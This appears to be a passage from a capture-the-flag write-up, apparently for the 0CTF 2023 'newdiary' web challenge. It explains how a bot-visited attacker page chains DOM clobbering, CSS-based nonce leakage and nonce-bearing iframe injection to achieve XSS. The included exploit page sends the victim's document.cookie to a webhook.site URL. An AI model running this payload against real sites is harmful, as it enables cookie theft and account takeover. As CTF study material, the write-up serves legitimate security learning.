 # Getting The XSS

Now that we have HTML injection and Nonce, we must connect the dots because the program uses a bot. To do this, we can add an arbitrary URL for the bot to visit, which will direct it to the website that contains our payload:

```python
<html>
    <script>
        const TARGET = "{{target}}"
        // https://www.fastmail.com/blog/sanitising-html-the-dom-clobbering-issue/
        
        let w = open(TARGET);
        let sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
        (async () => {
            await sleep(1000);
            w.location = `${TARGET}#<form><input name="childNodes"><input name="childNodes"><style>@import url(${origin}/static/css/first.css);</style></form>`
            

            await sleep(5000);
            w.location = `${TARGET}#<form><input name="childNodes"><input name="childNodes"><style>@import url(${origin}/static/css/second.css);</style></form>`
            // get nonce
            let nonce = "";
            while (true) {
                nonce = await fetch("/nonce").then(r => r.json());
                console.log(nonce);
                if (nonce.nonce.length != 32) {
                    await sleep(1000);
                } else {
                    break;
                }
            }

            w.location = TARGET +`#<form><input name="childNodes"><input name="childNodes"><iframe srcdoc="<script nonce=${nonce.nonce}>fetch(\`https://webhook.site/ff33c67d-c541-4203-b0a9-514187c18663?$\{document.cookie\}\`)<\/script>"></iframe></form>`
        })();

    </script>
</html>
```

Our target to attack will be a new window that is opened by this payload. After that, our parent page will modify the target hash to alter the HTML and inject our payload. Initially, the payload will inject the first script.css, after which the second script will be injected. Then, the application will wait for our app to complete solving the trigrams. Once we get the nonce, we can use it to inject iframes containing scripts with nonces that will be run upon loading and send our flag to the webhook.

Finally, remember to modify our attacker's server and webhook in order to obtain the flag.

# Reference

*   <https://waituck.sg/2023/12/11/0ctf-2023-newdiary-writeup.html>

*   <https://www.fastmail.com/blog/sanitising-html-the-dom-clobbering-issue/>
